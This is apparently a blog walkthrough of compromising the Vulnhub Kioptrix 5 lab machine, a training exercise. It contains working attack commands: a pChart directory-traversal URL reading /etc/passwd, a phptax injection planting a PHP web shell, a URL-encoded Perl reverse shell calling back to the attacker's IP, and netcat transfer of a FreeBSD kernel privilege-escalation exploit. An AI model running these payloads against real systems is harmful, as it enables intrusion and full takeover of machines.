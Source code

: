 ```yaml
---
layout: post
title: Vulnhub Kioptrix 5 Walkthrough
categories: [Vulnhub]
tags: [ linux]
toc: true
image:
  path: "/assets/images/kio5/kio5.png"
  alt: Vulnhub Kioptrix5

---
```


## Recon
### Nmap
we run nmap to determine open ports and running services.

![](/assets/images/kio5/2.png)


We find only two open ports and one running service which are HTTP:80 and HTTP: 8080. So, let’s start enumerating.

## Enumeration
we start enumerating http service on port 80. So, we go to the website and we find a simple page and nothing else. Then, we view source code of that page and we find a path.

![](/assets/images/kio5/3.2.png)

We move to that path and we noticed that there is a php charting library called “pChart 2.1.3”.

![](/assets/images/kio5/3.3.png)

## Exploitation
Therefore, we use searchsploit to search for any available exploits of “pChart 2.1.3”. We found the exploit 31173 that leverage a directory traversal and cross-site scripting (XSS) vulnerability.

```
searchsploit pChart
searchsploit -m php/webapps/31173.txt
vi 31173.txt
```

![](/assets/images/kio5/4.png)

![](/assets/images/kio5/5.png)

We copy the payload that mentioned in the exploit 31173 at the directory traversal section then modify and paste it in the URL to print the /etc/passwd file. We do that to make sure that website is vulnerable to directory traversal or local file inclusion (LFI) vulnerability.

```
http://192.168.56.114/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

```

![](/assets/images/kio5/6.png)


Now from the first line of the above image and nmap results, we know that we deal with FreeBSD 9.0 operating system and apache web server. So, we use google to search for the default apache configuration file path and we found it at that path “/usr/local/etc/apache22/httpd.conf”.

![](/assets/images/kio5/7.png)

Then, we replace `/etc/passwd` in the URL by our new path of the apache configuration file `/usr/local/etc/apache22/httpd.conf` and through looking to that file we noticed that over port `8080` the web server only accepts requests if the user agent is  `mozilla 4.0`.

```
http://192.168.56.114/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```
![](/assets/images/kio5/8.png)


We try to open the website over port `8080` and we got a forbidden response. So, we decided to use burp suite to modify the user agent header from `mozilla 5.0` to `mozilla 4.0`.

![](/assets/images/kio5/9.png)


We run burp suite and go to proxy tab then options tab and scroll down untill match and replace section then select mozilla 4.0. Match and replace automats the process of modifying user agent header instead of do it manual for each request.

![](/assets/images/kio5/10.png)

Now we can open the website over port 8080 and we noticed that there is a software running called “phptax”.


![](/assets/images/kio5/11.1.png)

![](/assets/images/kio5/11.2.png)

## Shell as www

we use searchsploit again to search for any available exploits of that software. We found three exploits and we are going to do manual exploit, so we select the second exploit to use which is 25849. That exploit simply create a file `rce.php` and inject to it a php code `<?php passthru($_GET[cmd]);?>` then we use that cmd parameter to execute our malicious commands on the web server.

![](/assets/images/kio5/12.png)


We use the URL encoded payload in the URL then we try to execute commands through cmd parameter and we successfully executed “id” command to make sure that our exploit works well.


```
httP://192.168.56.114:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

![](/assets/images/kio5/15.png)

Then, we run a perl reverse shell on port 4444 to gain access on the target machine and we successfully got a shell as www user.

```
# On kali linux terminal
nc -nlvp 4444
```

```
http://192.168.56.114:8080/phptax/data/rce.php?cmd=perl -e 'use Socket%3b%24i%3d"192.168.56.157"%3b%24p%3d4444%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname("tcp"))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i)))){open(STDIN%2c">%26S")%3bopen(STDOUT%2c">%26S")%3bopen(STDERR%2c">%26S")%3bexec("%2fbin%2fsh -i")%3b}%3b'
```


![](/assets/images/kio5/16.png)


## Privesc 

Now it is time to escalate our privileges to root user. As we know, we deal with `FreeBSD 9.0` OS. Therefore, we run searchsploit again to search for any available privilege escalation exploits for that OS and we have found a good one which is a kernel privilege escalation `28718`.

```
searchsploit FreeBSD 9.0
searchsploit -m freebsd/local/28718.c
```

![](/assets/images/kio5/17.png)

Then, we use netcat to transfere the exploit file to the target machine.

```
# On kali terminal
nc -nlvp 4445 < 28718.c
```

```
# On target terminal
nc 192.168.56.157 4445 > 28718.c
pwd
ls
```

![](/assets/images/kio5/18.png)

After that, we compile the exploit file using gcc program then execute it and we finally got a root shell.

```
gcc 28718.c -o 28718
./28718
id
whoami
```

![](/assets/images/kio5/19.png)
